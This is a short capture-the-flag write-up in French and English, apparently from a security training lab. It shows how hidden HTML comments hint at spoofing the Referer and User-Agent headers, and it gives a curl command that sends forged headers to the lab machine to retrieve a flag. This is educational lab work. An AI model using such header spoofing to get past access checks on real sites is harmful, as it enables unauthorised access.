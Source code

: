 # Exploit 12 - User-agent and Referer headers

sur la page http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f, on peut trouver les commentaires:

```html
<!--
You must come from : "https://www.nsa.gov/".
-->
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

Ils suggèrent d'envoyer une requète au même URL mais armé des headers:

-   `Referer: https://www.nsa.gov/`
-   `User-Agent: ft_bornToSec`

This can be automated with the command:

```bash
curl -s -X GET "http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" -H 'Referer: https://www.nsa.gov/' -H "User-Agent: ft_bornToSec" | grep -oP 'The flag is : \K[0-9a-f]{64}'
```
